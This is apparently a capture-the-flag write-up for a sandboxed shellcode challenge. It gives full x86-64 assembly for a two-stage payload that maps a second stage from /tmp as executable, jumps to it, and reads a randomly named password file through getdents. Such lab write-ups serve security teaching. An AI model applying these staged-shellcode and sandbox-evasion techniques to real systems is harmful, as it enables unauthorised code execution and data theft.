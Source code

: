 **Challenge Overview**

In this challenge, the user is prompted by the program to enter shellcode that
the program will then execute. Two major obstacles must be overcome in order
to do this. The first obstacle is the limited subset of syscalls that are
permitted (and hence, this challenge is a sandbox challenge). The second is the
size limitation on the size of the shellcode that can be input.

We need to gain access to the flag in the password file; however, everytime the
vulnerable program is run, the name of the password file is changed to a random
string of characters (and the file is within a directory, the contents of which
we cannot view). This necessitates creating shellcode that is not as simple as
simply opening a known filename and printing the contents to standard output.
We must open the directory and then read the filename from its directory entry.
Thankfully, this is at least simplified by the fact this is the only file within
the directory.

All of this means the shellcode necessary to complete the challenge is a lot
longer than the limit, which is 50 bytes.

We can read the contents of the shell script that is automatically run when
we start the vulnerable program:

```
#!/bin/sh

PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
CHALLENGE_PATH="$(dirname ${0})"

cd $CHALLENGE_PATH

UUID=$(tr -dc A-Za-z0-9 < /dev/urandom | head -c 32)

chmod 700 passwd/
mv passwd/.passwd_* "passwd/.passwd_${UUID}"
chmod 400 passwd/.passwd_*
chmod 500 passwd/

timeout -k 2m 1m ./p-sandbox ./ch10
```

We are only permitted to use the following system calls:

`read, write, exit, brk, mmap, access, open, fstat, close, mprotect,
munmap, arch_prctl, exit_group, getdents`

In order to complete the challenge, we must divide our shellcode into
two phases. The second phase of our shellcode will be kept in a file
that we put into some private directory we create in /tmp. That leaves
the first phase, which becomes as simply as creating a memory mapped
region into which the contents of our known file will be read. We then
change the permissions of this memory mapped region to be executable
and then use a JMP instruction to jump to the start of this region, thus
executing the second phase of our shellcode. Therefore, we have bypassed
the restriction of 50 bytes and our shellcode can be as long as we wish.

All of this uses only the restricted subset of system calls in the sandbox.

**Phase one of our exploit**

  - _Open file containing shellcode for phase two_
  - _Map the contents into memory, with the permission set
    (PROT_READ|PROT_WRITE|PROT_EXEC)_
  - _Pass execution to it_

The total size of this part of the exploit is 49 bytes, thus within the
size limitation of the sandbox.

**Phase two of our exploit**

  - _Open the "passwd" directory (pass O_DIRECTORY flag to open())_
  - _Read the directory entries onto the stack using sys_dirents_
  - _Push "passwd/" onto the stack and then append the obtained filename to it_
  - _Open the password file_
  - _Read contents onto stack_
  - _Print contents to stdout_

The size of this part of the exploit is 161 bytes, itself well over the size
limitation. The total size of the exploit is therefore 210 bytes.


**Assembly code for part I of the exploit**

```
.section .rodata

.equ SYS_MMAP,9
.equ PROT,0x7
.equ FLAGS,0x2

.globl _start

_start:
	mov $0x63732f706d742f,%rdi
	push %rdi
	mov %rsp,%rdi
	push $2
	pop %rsi
	push $2
	pop %rax
	syscall
	mov %rax,%r8
	xor %rdi,%rdi
	movb $131,%sil
	push $0
	pop %r9
	push $PROT
	pop %rdx
	push $FLAGS
	pop %r10
	push $SYS_MMAP
	pop %rax
	syscall
	call *%rax
```
  
**Assembly code for part II of the exploit**

```
.section .rodata

.equ SYS_READ,0
.equ SYS_WRITE,1
.equ SYS_OPEN,2
.equ SYS_EXIT,60
.equ SYS_GETDENTS,78
.equ O_DIRECTORY,0200000
.equ OFLAGS,0x242

.globl _start

_start:
	mov $0x647773736170,%rdi
	push %rdi
	mov %rsp,%rdi
	push $O_DIRECTORY
	pop %rsi
	push $SYS_OPEN
	pop %rax
	syscall
	mov %rax,%rdi
	mov %rsp,%rsi
	mov $255,%dl
	push $SYS_GETDENTS
	pop %rax
	syscall

	add $42,%rsp
	mov %rsp,%rsi
	sub $0x200,%rsp
	push $42
	pop %rcx
	mov $0x2f647773736170,%rdi
	push %rdi
	add $7,%rsp
	mov %rsp,%rdi
.mloop:
	movb (%rsi),%al
	movb %al,(%rdi)
	inc %rsi
	inc %rdi
	dec %rcx
	jne .mloop

	mov $0,%rax
	movb %al,(%rdi)

	mov $1,%rsi
	dec %rsi
	mov $2,%rax
	sub $7,%rsp
	mov %rsp,%rdi
	syscall
	mov %rax,%rdi
	sub $0x100,%rsp
	mov %rsp,%rsi
	push $64
	pop %rdx
	push $SYS_READ
	pop %rax
	syscall

	push $1
	pop %rdi
	push $0x800
	pop %rdx
	mov %rsp,%rsi
	push $SYS_WRITE
	pop %rax
	syscall
```
